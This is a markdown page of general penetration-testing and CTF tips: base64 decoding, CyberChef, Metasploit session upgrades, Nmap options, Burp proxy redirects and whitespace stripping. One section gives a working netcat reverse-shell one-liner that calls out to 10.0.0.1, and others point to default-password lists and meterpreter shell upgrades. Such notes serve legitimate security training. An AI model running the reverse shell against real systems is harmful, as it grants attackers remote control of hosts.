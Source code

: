 # General tips

## General CTF data analysis \(encoding, hash identifier, etc.\)

```
https://gchq.github.io/CyberChef/
```

## Disposable email

If you are signing up for a lot of accounts you can use a disposable email. You just enter the email account you want for that second, and then you can view it. But remember, so can everyone else.  
[https://www.mailinator.com](https://www.mailinator.com)

## Base64 encode/decode

```python
import base64

encoded = base64.b64encode("String to encode")
print encoded

decoded = base64.b64decode("aGVqc2Fu")
print decoded
```

## Quick Base64 Decoder

```
echo aGVsbG8gd2hpdGUgaGF0Cg== | base64 -d
```

## Metasploit Slow Search Fix

```
db_rebuild_cache
```

## Default passwords

[http://www.defaultpassword.com/](http://www.defaultpassword.com/)

## Getting GUI on machine that does not have RDP or VNC

You can forward X over SSH.  
[http://www.vanemery.com/Linux/XoverSSH/X-over-SSH2.html](http://www.vanemery.com/Linux/XoverSSH/X-over-SSH2.html)

## Metasploit shell upgrade

In metasploit framework, if we have a shell \( you should try this also, when you are trying to interact with a shell and it dies \(happened in a VM\), we can upgrade it to meterpreter by using sessions -u

```
sessions -h
Usage: sessions [options]

Active session manipulation and interaction.

OPTIONS:

-u <opt>  Upgrade a shell to a meterpreter session on many platforms
```

## **Using a list in a metasploit module that does not allow it**

```
In the RHOSTS field enter:

file://PATHTOIPADDRESSES
```

## **Change Nmap modes while scanning**

```
v   --increase verbosity
p   --turn on packets
```

## **Nmap host enumeration**

```
-sn --determine alive hosts
```

## Issues with Exploits \(try viewing in Burp\)

```
Options->Add(proxy Listeners)->
Bind to port (i.e.local port to bind)(e.g.8500)->
Request Handling->
Redirect to host(i.e.IP of target)(e.g.8500)->
Redirect to port(i.e.Port of target)(e.g.8500)

then browser
localhost:8500
or run the exploit again
```

## Quick determination if executables exist

```
which nc
```

## Makes Sure shells don't hang \(send to background\)

```
If adding a reverse shell to web console for example, add a "&" to the end of reverse shell, to send to background
and in case any process during interaction hangs
for example:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f &
```

## Modification of Files \(CTF specific / IR trick\)

look for other files modified after initial flag file or other indicator

```
find / -type f -newermt 2017-08-20 ! -newermt 2017-08-24 2>/dev/null
```

**Note:** 2&gt;/dev/null hides all permission denied error messages

above example the user flag was uploaded aug 22 2017



## Remove white space from a file

In order to wipe all whitespace including newlines you can try:

```
cat file.txt | tr -d " \t\n\r" 
```

You can also use the character classes defined by tr

```
cat file.txt | tr -d "[:space:]"
```

For example, in order to wipe just horizontal white space:

```
cat file.txt | tr -d "[:blank:]"
```



